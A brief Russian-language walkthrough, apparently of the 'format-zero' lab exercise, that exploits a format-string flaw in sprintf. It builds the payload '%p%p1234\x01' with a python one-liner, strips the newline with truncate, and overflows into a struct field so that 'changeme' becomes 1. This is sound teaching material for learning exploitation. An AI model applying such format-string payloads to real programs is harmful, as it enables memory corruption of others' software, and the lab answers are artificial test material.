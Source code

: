 Задача - изменить значение поля `changeme` в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x01", чтобы `changeme` стало = 1

Заполняем файл inputfileFZ
```
python -c "print('%p%p1234\x01')" > inputfileFZ
```

И убираем байт \0a
```
truncate -s -1 inputfileFZ
```

Параметры buffer и dest до вызова функции\
![alt text](../images/format-zero/1.png)

Содержимое dest и changeme\
![alt text](../images/format-zero/2.png)

Победа\
![alt text](../images/format-zero/3.png)